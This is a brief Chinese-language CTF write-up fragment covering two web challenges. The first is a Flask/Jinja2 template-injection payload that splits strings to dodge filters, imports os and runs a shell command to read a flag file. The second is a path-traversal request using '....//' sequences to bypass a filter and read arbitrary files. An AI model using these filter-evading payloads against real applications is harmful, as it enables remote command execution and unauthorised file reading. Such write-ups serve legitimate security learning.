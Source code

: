 简单 flask ssti

```
name={% print lipsum['__globals__']['__bui''ltins__']['__imp''ort__']('o''s')['pop''en']('cat /flag_1s_Hera')['re''ad']()  %}
```

## virink_2019_files_share

很怪, 访问 `/upload` 会卡住, 但 `/upload/` 就没问题

之后是一个任意文件读取, 过滤规则有点奇怪

```
/preview?f=....//....//....//....//....//....//....//....//f1ag_Is_h3reee//flag
```
